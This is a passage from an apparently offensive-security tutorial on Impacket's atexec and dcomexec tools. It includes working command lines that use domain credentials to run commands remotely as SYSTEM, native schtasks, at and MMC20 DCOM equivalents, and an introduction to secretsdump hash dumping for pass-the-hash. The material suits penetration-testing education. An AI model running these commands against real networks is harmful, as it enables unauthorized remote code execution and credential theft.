 ```
./atexec.py 'democorp.com/BadgeService:Perfection123!@10.10.24.100' 'whoami /all' -dc-ip 10.10.24.250 -codec cp866

$ whoami /all
nt authority\system

Counterpart (simplified):
schtasks /create /tn <task> /tr c:\windows\system32\calc.exe /sc once /st 00:00 /S <host.domain> /RU System
schtasks /run /tn <task> /S <host.domain>

at \\<host.domain> 06:00 cmd /c <command>
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/23.png)

As observed, we've successfully executed code on the remote machine with `nt authority\system` privileges.

## dcomexec

The  `dcomexec` and `wmiexec` share a similar objective of executing commands on a remote system, but they employ different DCOM endpoints for accomplishing this. With `dcomexec`, specific DCOM (Component Object Model) objects are utilized to execute commands over RPC, including objects like `MMC20`, `ShellBrowserWindow`, and `ShellWindows`. DCOM facilitates communication between processes from different applications and languages. Like `wmiexec`, `dcomexec` carries out remote code execution  within the context of the local administrator account.

With `dcomexec`, the shell that we use is semi-interactive. During execution of `dcomexec`, we must provide the DCOM object to use for remote code execution. DCOMExec contains `lput`, and `lget` built in shell commands to upload and download files.

```
./dcomexec.py -object MMC20 'democorp.com/BadgeService:Perfection123!@10.10.24.100' 

$ whoami /all
democorp\badgeservice

Counterpart (simplified):
[System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.10.30")).Document.ActiveView.ExecuteShellCommand("C:\Windows\System32\Calc.exe","0","0","0")
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/29.png)

This article [Offensive Lateral Movement](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f) provides a valuable resource for more in-depth information on these techniques.

## secretsdump

Last but not least, let's explore the utility that facilitates the remote dumping of hashes from the compromised machine. These hashes can be valuable for further analysis, cracking, or lateral movement if they are NTLM hashes by employing Pass The Hash attack.
